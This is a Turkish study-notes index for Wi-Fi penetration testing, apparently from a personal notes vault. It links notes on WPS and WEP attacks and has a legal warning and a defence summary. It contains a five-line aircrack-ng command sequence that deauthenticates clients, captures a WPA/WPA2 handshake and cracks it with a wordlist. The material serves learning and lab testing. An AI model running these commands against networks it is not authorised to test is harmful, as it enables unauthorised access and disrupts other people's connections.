

# Wi-Fi Hackleme

> 📚 [[Siber_Güvenlik_Ana_Sayfa|Ana Sayfa]]

> [!abstract] Bu klasör
> Kablosuz ağ (Wi-Fi) güvenliği ve sızma testi notları. Sıralama **öğrenme sırasını** izler: önce protokoller ve donanım, sonra araçlar, sonra WPS ve WEP saldırıları.

> [!warning] Yasal uyarı
> Buradaki teknikler yalnızca **kendi laboratuvar ağında veya yazılı izin alınmış ortamlarda** uygulanmalıdır.

## Yol haritası



## Notlar

### Temeller

| Not | İçerik |
|---|---|
| [[01_Wi-Fi_Güvenlik_Protokolleri\|Wi-Fi Güvenlik Protokolleri ve Sızma Testi Temelleri]] | WEP/WPA/WPA2/WPA3 karşılaştırması, sızma testinin 4 bileşeni |
| [[02_Wi-Fi_Kimlik_Doğrulama_Yöntemleri\|Wi-Fi Kimlik Doğrulama Yöntemleri]] | Open, Shared Key, 4-way handshake, SAE |
| [[03_802.11_Çerçeveleri_ve_Bağlantı_Döngüsü\|802.11 Çerçeveleri ve Bağlantı Döngüsü]] | Beacon, Probe, Auth, Assoc, EAPOL, Deauth ve Wireshark filtreleri |

### Donanım ve hazırlık

| Not | İçerik |
|---|---|
| [[04_Wi-Fi_Arayüzleri_ve_Yapılandırma\|Wi-Fi Arayüzleri ve Yapılandırma]] | Doğru kart seçimi, TX power, bölge kodu, kanal/frekans |
| [[05_Wi-Fi_Çalışma_Modları\|Wi-Fi Çalışma Modları]] | Managed, Monitor, Master, Ad-Hoc, Mesh |

### Aircrack-ng araç seti

| Not | İçerik |
|---|---|
| [[06_Aircrack-ng_Genel_Bakış\|Aircrack-ng Genel Bakış]] | Araçlara genel bakış ve saldırı akışı |
| [[06.1_Airmon-ng\|Airmon-ng]] | Monitor mod yönetimi |
| [[06.2_Airodump-ng\|Airodump-ng]] | Keşif ve paket yakalama |
| [[06.3_Airgraph-ng\|Airgraph-ng]] | CAPR / CPG grafikleri |
| [[06.4_Aireplay-ng\|Aireplay-ng]] | Deauth, injection, trafik üretimi |
| [[06.5_Airdecap-ng\|Airdecap-ng]] | Şifreli trafiği çözme |
| [[06.6_Aircrack-ng_Parola_Kırma\|Aircrack-ng ile Parola Kırma]] | WEP/WPA/WPA2 parola kırma |

### WPS saldırıları

| Not | İçerik |
|---|---|
| [[07_WPS_Temelleri_ve_Zafiyeti\|WPS Temelleri ve Zafiyeti]] | WPS nasıl çalışır, neden 11.000 PIN |
| [[07.1_WPS_Keşif_ve_Tarama\|WPS Keşif ve Tarama]] | wash / airodump --wps ile keşif |
| [[07.2_WPS_Online_PIN_Brute-Force\|WPS Online PIN Brute-Force]] | Reaver, WPSPin, PIN üreticiler |
| [[07.3_WPS_Pixie_Dust\|WPS Pixie Dust]] | Offline PIN kırma |
| [[07.4_WPS_PBC_Saldırısı\|WPS PBC Saldırısı]] | Buton modu |
| [[07.5_MDK4_ile_WPS_Kilidi_DoS\|MDK4 ile WPS Kilidi / DoS]] | Kilidi aşmak için DoS |

### WEP saldırıları

| Not | İçerik |
|---|---|
| [[08_WEP_Zafiyetleri_ve_RC4\|WEP Zafiyetleri ve RC4]] | RC4, IV, CRC32 ve saldırı seçim tablosu |
| [[08.1_WEP_ARP_Request_Replay\|WEP ARP Request Replay]] | Klasik hızlı yöntem |
| [[08.2_WEP_KoreK_Chop_Chop\|WEP KoreK Chop Chop]] | Keystream elde etme |
| [[08.3_WEP_Cafe_Latte\|WEP Cafe Latte]] | İstemciye yönelik saldırı |
| [[08.4_WEP_İstemcisiz_Saldırı\|WEP İstemcisiz Saldırı]] | Fake auth + packetforge |
| [[08.5_WEP_Ek_Yöntemler_ve_Bruteforce\|WEP Ek Yöntemler ve Bruteforce]] | KoreK ve sözlük saldırısı |

## Hızlı komut akışı (WPA/WPA2-PSK)

```bash
sudo airmon-ng check kill && sudo airmon-ng start wlan0      # 1. monitor mod
sudo airodump-ng wlan0mon                                      # 2. hedefi bul (BSSID, CH)
sudo airodump-ng -c <CH> --bssid <BSSID> -w hedef wlan0mon     # 3. sadece hedefi kaydet
sudo aireplay-ng -0 5 -a <BSSID> -c <CLIENT> wlan0mon          # 4. deauth, handshake yakala
aircrack-ng hedef-01.cap -w /opt/wordlist.txt                  # 5. sözlükle kır
```

Ayrıntılar: [[06.1_Airmon-ng]], [[06.2_Airodump-ng]], [[06.4_Aireplay-ng]], [[06.6_Aircrack-ng_Parola_Kırma]].

## Savunma özeti
- **WPA3** (veya en az WPA2-AES) kullan, **WEP/TKIP** kullanma.
- **WPS'i kapat.**
- Uzun, rastgele bir parola seç (sözlükte olmasın).
- Mümkünse **PMF (802.11w)** aç.
- Router firmware'ini güncel tut.
